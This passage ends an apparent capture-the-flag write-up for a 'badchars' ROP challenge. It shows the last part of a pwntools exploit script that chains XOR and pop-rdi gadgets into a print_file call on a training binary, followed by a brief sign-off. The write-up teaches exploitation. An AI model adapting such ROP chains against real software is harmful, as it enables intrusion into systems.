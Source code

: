 ```python
payload += p64(0x400628)        	# xor byte ptr [r15], r14b; ret;
payload += p64(0x4006a3)        	# pop rdi; ret;
payload += p64(data_address)
payload += p64(0x00400510)			# address of print_file


print p.recvuntil('> ')
p.sendline(payload)

print p.recvuntil('}')
```

![image](https://raw.githubusercontent.com/0xZuk0/matrix/master/assets/Badchar/Action.png)

Bingo! We completed the challange. Please Note that we can write the exploit more efficiently.

Thank you so much for taking your time to read this. Keep Hacking.
